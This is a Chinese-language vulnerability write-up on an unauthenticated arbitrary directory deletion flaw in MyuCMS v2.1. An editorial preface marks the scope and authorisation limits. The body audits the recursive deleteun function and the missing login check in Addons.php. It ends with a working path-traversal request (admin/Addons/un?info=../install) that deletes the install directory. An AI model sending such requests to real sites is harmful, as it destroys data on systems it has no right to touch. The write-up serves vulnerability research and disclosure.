


## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：Addons/AdminBase无有效认证链、服务账户可删除；Muban另需登录

- **适用与权限边界（1）**：明确三入口不同鉴权是有用差异，不能把全部都无认证。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **适用与权限边界（2）**：只证明父Controller初始化空不排除AdminBase其他代码/路由拦截，应提供完整鉴权证据。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **操作与副作用边界（3）**：payload删除整个install目录是破坏性测试；递归函数源码完整支持目录删除能力。保留原步骤及请求方法。执行条件包括隔离且获授权的可恢复环境、预先记录相关文件/账号/配置/业务记录状态；响应完成不能等同无副作用，恢复时须核对该操作涉及的实际对象。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# MyuCMS v2.1 任意目录删除漏洞

一、漏洞简介
------------

二、漏洞影响
------------

MyuCMS v2.1

三、复现过程
------------

因为漏洞描述是任意文件删除，所以先全文搜索 **unlink**
函数，定位到存在文件删除功能的代码段。

定位到 **application/common.php** 中的 **deleteun** 函数

    function deleteun($dir_name)
    {
        $result = false;
        if (is_dir($dir_name)) { // 判断是否为目录
            if ($handle = opendir($dir_name)) { // 打开目录
                while (false !== ($item = readdir($handle))) { // 通过这个 while 遍历目录中的文件 
                    if ($item != '.' && $item != '..') {
                        if (is_dir($dir_name . DS . $item)) { // 若遍历到的文件为子目录，则递归调用deleteun
                            deleteun($dir_name . DS . $item);
                        } else {
                            unlink($dir_name . DS . $item); // 删除遍历到的文件
                        }
                    }
                }
                closedir($handle); // 关闭文件夹
                if (rmdir($dir_name)) { // 删除该目录
                    $result = true;
                }
            }
        }

        return $result;
    }

根据 **deleteun**
函数的实现代码来看，我们可以看到该函数中对传入的参数无任何限制。

然后在整个项目中搜索，看哪个文件中调用了 **deleteun** 函数。

发现总共三处两个文件调用了该函数，且这三处代码内容相同，只不过是传递给的
**deleteun**
函数的参数不同，我们可以判断出，这三处都可以触发任意目录删除漏洞。

这三处的不同之处在于。**Muban.php** 继承了 **Common** 类，在 **Common**
类中实现了对于是否已经登录的验证。实现代码如下。

    public function _initialize(){
            if(!session('usermail') || !session('kouling')){
               $this->error('请登录',url('login/index')); 
               print s();
            }

        }

而 **Addons.php** 继承自 **AdminBase** 类，且初始化时执行父类
**AdminBase** 的 **\_initialize()** 方法，在 **AdminBase**
类中调用了父类 **Controller** 的 **\_initialize()** 方法。而父类的
**Controller** 的 **\_initialize();** 方法的实现内容为空。

所以 **Addons.php**
在未登录的情况下也可以访问。这意味我们不需要登录后台也可以触发任意目录删除漏洞。

### Payload

所以给出 Payload 如下，即可删除整个 **install** 目录

    Payload: http://www.0-sec.org/admin/Addons/un?info=../install

参考链接
--------

> https://xz.aliyun.com/t/7271\#toc-0
